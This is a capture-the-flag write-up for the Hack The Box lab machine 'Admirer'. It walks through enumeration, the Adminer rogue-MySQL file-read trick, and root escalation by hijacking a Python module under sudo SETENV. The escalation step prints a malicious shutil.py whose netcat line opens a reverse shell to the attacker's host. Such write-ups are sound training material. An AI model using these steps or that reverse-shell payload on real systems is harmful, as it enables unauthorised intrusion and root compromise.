


# Admirer

This is the write-up for the box Admirer that got retired at the 26th September 2020.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.187    admirer.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/admirer.nmap 10.10.10.187
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey:
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page contains images and when browsing to _index.php_ it works, which means that PHP is supported.
The Nmap script _http-robots_ found a _robots.txt_ file, that contains a directory and some additional information:
```
This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo

Disallow: /admin-dir
```

It resolves in the HTTP status code _403 Forbidden_, so lets search for hidden directories, PHP and text files in there with **Gobuster**:
```
gobuster -u http://10.10.10.187/admin-dir dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php,txt -b 403,404
```

A file _/contacts.txt_ is found with some user information:
```
# admins
Penny
Email: p.wise@admirer.htb

# developers
Rajesh
Email: r.nayyar@admirer.htb

Amy
Email: a.bialik@admirer.htb

Leonard
Email: l.galecki@admirer.htb

# designers
Howard
Email: h.helberg@admirer.htb

Bernadette
Email: b.rauch@admirer.htb
```

Another file _credentials.txt_ is found with credentials:
```
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

Lets use the FTP credentials on the FTP service.

## Checking FTP (Port 21)

The credentials of the FTP account _ftpuser_ work and there are two files in the FTP directory:
```
ftp 10.10.10.187
```
```
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
```

The file _dump.sql_ is a dump of the MySQL database, but does not show any interesting information.

Decompressing the archive _html.tar.gz_:
```
tar -xzvf html.tar.gz
```

It unpacks a copy of the source files from the web page, but with some different folders.
The folder _w4ld0s_s3cr3t_d1r_ contains another _credentials.txt_, but with one more credential:
```
[Bank Account]
waldo.11
Ezy]m27}OREc$
```

The file _index.php_ has credentials for a database:
```
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
```

The file _utility-scripts/db_admin.php_ has credentials for a database:
```
$servername = "localhost";
$username = "waldo";
$password = "Wh3r3_1s_w4ld0?";
```

There is another file in _utility-scripts_ called _admin_tasks.php_ that can also be found on the web page, which shows the uptime, logged in users and crontab from the bash script _/opt/scripts/admin_tasks.sh_ on the box:


It does not have any sensitive information, but there may be more hidden files or directories in that directory.

## Enumerating HTTP (Port 80)

Searching for hidden files and directories in _utility-scripts_:
```
gobuster -u http://10.10.10.187/utility-scripts dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php,txt -b 403,404
```

It finds _adminer.php_ which hosts [Adminer](https://www.adminer.org/) that is used as a database management tool:


None of the obtained credentials work, but it is possible to specify a different server and it connects there:
```
System: MySQL
Server: 10.10.14.9
Username: testuser
Password: testpass
Database: testdb
```

My `netcat` listener on port 3306 receives a response after trying to login:
```
nc -lvnp 3306

Ncat: Listening on 0.0.0.0:3306
Ncat: Connection from 10.10.10.187.
```

This means that we can setup our own MySQL database to bypass the authentication and access the **Adminer** interface.

### Exploiting Adminer

Starting the MySQL service and login in on our local client:
```
service mysql start

mysql -u root
```

Creating a database and a user:
```
MariaDB [(none)]> create database admirer_bypass;

MariaDB [(none)]> create user 'testuser1'@'10.10.10.187' IDENTIFIED BY 'PasswordForAdmirer!';

MariaDB [(none)]> GRANT ALL ON admirer_bypass.* TO 'testuser1'@'10.10.10.187';

MariaDB [(none)]> FLUSH PRIVILEGES;
```

Changing the bind address for MySQL in the local _/etc/mysql/mariadb.conf.d/50-server.cnf_ file:
```
(...)
bind-address            = 0.0.0.0
(...)
```

Restarting the service, so the changes take effect:
```
service mysql restart
```

Now it is possible to login into the database with **Adminer**:
```
System: MySQL
Server: 10.10.14.9
Username: testuser1
Password: PasswordForAdmirer!
Database: admirer_bypass
```



According to this [article from Foregenix](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool) there is a **File Disclosure Vulnerability** in Adminer version 4.6.2.

Creating a new table in our database:
```
MariaDB [(none)]> use admirer_bypass;

MariaDB [admirer_bypass]> CREATE TABLE new_table (OUTPUT TEXT(4096));
```

On **Adminer** there is a SQL command line, where the following command will be used to read _/var/www/html/index.php_:
```sql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' INTO TABLE new_table FIELDS TERMINATED BY "\n"
```



The contents of _index.php_ are now in the table that we created:
```
MariaDB [admirer_bypass]> use admirer_bypass;

MariaDB [admirer_bypass]> select * from new_table;
```

The password on this _index.php_ differs from the other one:
```
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```

The password works on SSH for the user _waldo_:
```
ssh waldo@10.10.10.187
```

## Privilege Escalation

The user _waldo_ can run the bash script _/opt/scripts/admin_tasks.sh_ with root privileges that was mentioned in the _admin_tasks.php_:
```
sudo -l

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

The function _backup_web_ in the script calls the Python script _/opt/scripts/backup.py_ which imports the _shutil_ library:
```
from shutil import make_archive
(...)
make_archive(dst, 'gztar', src)
```

In the output of `sudo`, the **SETENV** means that it is possible to set environment variables when executing the script.
This means by hijacking the module _shutil_ in the Python script, it is possible to replace the library with our own code and execute any command.

Creating the malicious Python library in _/dev/shm_ and calling it _shutil.py_:
```python
import os

def make_archive(a, b, c):
        os.system("nc -c bash 10.10.14.9 9001")
```

Setting the environment variable for Python to _/dev/shm_ and executing _admin_tasks.sh_ with sudo:
```
sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
```

Choosing option 6 to execute _/opt/scripts/backup.py_:
```
[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
```

After choosing the option, the Python script will execute and find the library for _shutil_ in our reverse shell script and thus the listener on my IP and port 9001 starts a reverse shell as root!
